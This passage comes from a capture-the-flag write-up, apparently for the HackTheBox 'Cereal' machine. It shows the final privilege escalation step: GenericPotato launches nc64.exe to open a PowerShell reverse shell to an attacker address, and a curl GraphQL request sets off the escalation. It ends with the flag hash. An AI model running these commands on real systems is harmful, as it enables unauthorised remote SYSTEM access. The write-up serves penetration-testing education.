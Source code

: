 Execute genericPotato on the box
````cmd
.\GenericPotato.exe -p "C:\Users\sonny\Downloads\tmp\nc64.exe" -a "10.10.14.200 8004 -e powershell" -e HTTP -l 8005
````

````bash
curl -k -X "POST" -H "Content-Type: application/json" --data-binary '{"query":"mutation{updatePlant(plantId:2, version:2.2, sourceURL:\"http://localhost:8005\")}"}' 'http://localhost:8003/api/graphql'
````

And we got system access time to get the flag and finish off the box. 


hash -> 0ea7ef7c6bf8a4d87c373c589e061063
https://0xdedinfosec.github.io/posts/htb-cereal/